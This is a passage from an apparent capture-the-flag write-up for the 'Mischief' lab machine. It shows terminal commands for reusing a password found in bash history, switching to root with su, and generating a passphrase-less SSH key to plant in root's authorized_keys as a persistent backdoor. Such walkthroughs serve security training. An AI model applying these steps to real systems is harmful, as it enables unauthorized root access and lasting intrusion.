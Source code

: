 Finally something useful, we can see that we are able to run `sudo`, all we need is the root password.

Remembering how much of a troll this box has been so far, we go back and try our custom word list and eventually we do get a hit with the password from loki's bash history:
```
www-data@Mischief:/var/www/html$ sudo ls
sudo ls
sudo: unable to resolve host Mischief: Resource temporarily unavailable
[sudo] password for root: lokipasswordmischieftrickery

www-data is not in the sudoers file.  This incident will be reported.
```

When we get that message it means that the log in was successful, but the `www-data` user is not a sudoer, but the other binary that loki is not allowed to use was `su` which allows us to change our current user:
```
www-data@Mischief:/var/www/html$ su root
su root
Password: lokipasswordmischieftrickery

root@Mischief:/var/www/html# cd /root
cd /root
root@Mischief:~# ls
ls
root.txt
root@Mischief:~# cat root.txt
cat root.txt
The flag is not here, get a shell to find it!
```

And we get another troll.

Looking around the box, there is an empty `authorized_keys` file:
```
root@Mischief:~/.ssh# ls -la
ls -la
total 8
drwx------ 2 root root 4096 May 14  2018 .
drwx------ 6 root root 4096 May 28  2018 ..
-rw------- 1 root root    0 May 14  2018 authorized_keys
```

Back on our attacking machine we can generate some ssh keys without a password and place the generated public key in the remote `authorized_keys` file:
```
root@kali: ssh-keygen -f thoseguys          
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in thoseguys.
Your public key has been saved in thoseguys.pub.
The key fingerprint is:
SHA256:8bRlSwGwVTM5Qtky5+S6ZFy97puseSNF3eE/bsG5WFc root@kali
The key's randomart image is:
...
root@kali: chmod 600 thoseguys
root@kali: cat thoseguys.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEdz ... b71Nc2H+jcCCEYRoFzxfl root@kali
```
